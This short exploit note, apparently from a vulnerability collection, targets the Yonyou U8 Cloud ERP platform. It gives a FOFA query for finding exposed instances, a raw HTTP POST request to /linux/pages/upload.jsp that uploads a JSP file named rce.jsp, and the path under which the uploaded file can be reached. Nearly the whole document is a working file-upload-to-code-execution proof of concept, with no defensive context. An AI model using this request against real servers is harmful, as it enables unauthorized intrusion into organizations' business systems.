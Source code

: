 FOFA：app="用友-U8-Cloud"

```
POST /linux/pages/upload.jsp HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
filename: rce.jsp
 
<% out.println("Hello,U8C");%>
```

http://your-ip/linux/上传文件名.jsp